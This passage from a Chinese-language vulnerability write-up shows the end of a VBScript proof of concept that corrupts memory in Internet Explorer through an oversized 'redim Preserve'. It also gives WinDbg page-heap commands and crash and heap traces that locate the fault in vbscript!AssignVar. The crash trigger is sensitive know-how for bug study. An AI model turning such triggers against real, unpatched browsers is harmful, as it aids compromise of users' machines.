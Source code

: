 ```html
    over = &h8000000 + size
    redim Preserve arrayA(size)

    IsEmpty(arrayA)

    redim arrayB(size)
    redim Preserve arrayA(over)
    arrayA(size+1) = 5
</script>
</body>
</html>
```

windbg 打开堆调试开关：

```
C:\Windows\system32>gflags.exe /i iexplore.exe +hpa -ust
Current Registry Settings for iexplore.exe executable are: 02000000
    hpa - Enable page heap
```

IE 运行 poc 时用windbg 附加上，可以看到崩溃信息：

```assembly
0:005> g
Mon Jun 24 11:06:29.036 2019 (GMT+8): (86c.848): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=0000400c ebx=04ea7000 ecx=0000400c edx=00000002 esi=00000010 edi=00000001
eip=68512e78 esp=041bcfd4 ebp=041bcffc iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010202
vbscript!AssignVar+0x14:
68512e78 66390b          cmp     word ptr [ebx],cx        ds:0023:04ea7000=????

vbscript!AssignVar:
68512e64 8bff            mov     edi,edi
68512e66 55              push    ebp
68512e67 8bec            mov     ebp,esp
68512e69 83ec20          sub     esp,20h
68512e6c 53              push    ebx
68512e6d 8b5d0c          mov     ebx,dword ptr [ebp+0Ch]
68512e70 b80c400000      mov     eax,400Ch
68512e75 8bc8            mov     ecx,eax
68512e77 56              push    esi
68512e78 66390b          cmp     word ptr [ebx],cx        ds:0023:04ea7000=????
68512e7b 0f841f9f0000    je      vbscript!AssignVar+0x19 (6851cda0)
```

可以看到，执行到 `eip=68512e78` 时，在读取`ebx`指向的内存时出错。查看 `ebx` 指向的内存是如何申请的：

```assembly
0:005> !heap -p -a ebx
    address 04ea7000 found in
    _DPH_HEAP_ROOT @ 1f1000
    in busy allocation (  DPH_HEAP_BLOCK:         UserAddr         UserSize -         VirtAddr         VirtSize)
                                 4dd14e0:          4ea6ef0              110 -          4ea6000             2000
    6d178e89 verifier!AVrfDebugPageHeapAllocate+0x00000229
    6d1792b2 verifier!AVrfDebugPageHeapReAllocate+0x000001a2
    77796153 ntdll!RtlDebugReAllocateHeap+0x00000033
    7775e46c ntdll!RtlReAllocateHeap+0x00000054
    775aee32 ole32!CRetailMalloc_Realloc+0x00000025
    7784ed3c OLEAUT32!SafeArrayRedim+0x00000153
    685258da vbscript!RedimPreserveArray+0x00000081
    68525887 vbscript!CScriptRuntime::RunNoEH+0x00001466
    68514ff6 vbscript!CScriptRuntime::Run+0x00000064
```